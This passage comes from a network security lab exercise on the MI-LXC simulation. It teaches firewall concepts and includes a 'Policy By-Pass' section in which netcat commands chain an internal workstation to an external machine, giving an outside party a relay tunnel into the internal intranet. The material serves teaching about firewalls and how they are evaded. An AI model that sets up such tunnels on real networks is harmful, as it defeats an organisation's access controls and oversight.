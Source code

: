 9. Detail each operation you are doing.

> The MI-LXC json files are explained [here](https://github.com/flesueur/mi-lxc#how-to-extend).

Policy By-Pass
--------------

Let's imagine you are the developer (once again) and you would like to provide an access to the Intranet ("target-intranet") to an
external friend, despite the fact the Intranet is not publicly available. You'll create a tunnel to by-pass the security policy.
By using "target-dev" (your workstation) and "isp-a-home" (an external machine, at home), try to by-pass the security policy.

We are going to use the tool `netcat` to setup a simple tunnel.

Connect to the machine "isp-a-home". There is a _Apache_ service that is running on TCP/80. Since we need TCP/80, stop the _Apache_ service
then run `netcat` to bind on TCP/80 (HTTP):
```bash
service apache2 stop
while true; do nc -v -l -p 80 -c "nc -l -p 8080"; done
```

Then, on "target-dev", setup an outgoing connection to the remote machine, "isp-a-home"
```bash
while true; do nc -v 100.120.0.3 80 -c "nc 100.80.0.5 80"; sleep 2; done
```

>As a reminder :
>* 100.120.0.3 = isp-a-home
>* 100.80.0.5 = target-intranet

Check you can connect to the intranet using "isp-a-home" using the URL `http://100.120.0.3:8080`

10. Explain what is happening with a schema.

It's very difficult to block or to detect a tunnel (let's imagine an encrypted tunnel with SSH or HTTPS).

Bonus
=====

FTP
---

FTP, as some of other protocols, is a challenge for firewalls. Indeed, the control part of FTP is performed on a different connection (and
a different port) from the data connection. The modern firewalls know how to link both connections and know how to deal with it.

A FTP server is installed on "target-dmz", configure the firewall to allow the file sharing from a machine outside the network of _Target_.
FTP requires a valid Linux user (debian/debian for instance).

Shorewall
---------
You have figured out how complex it is to configure a firewall. Especially when you have to read existing rules or to check their
consistence. Maintaining these rules is a complex duty in production : they change regularly and need a periodic review.
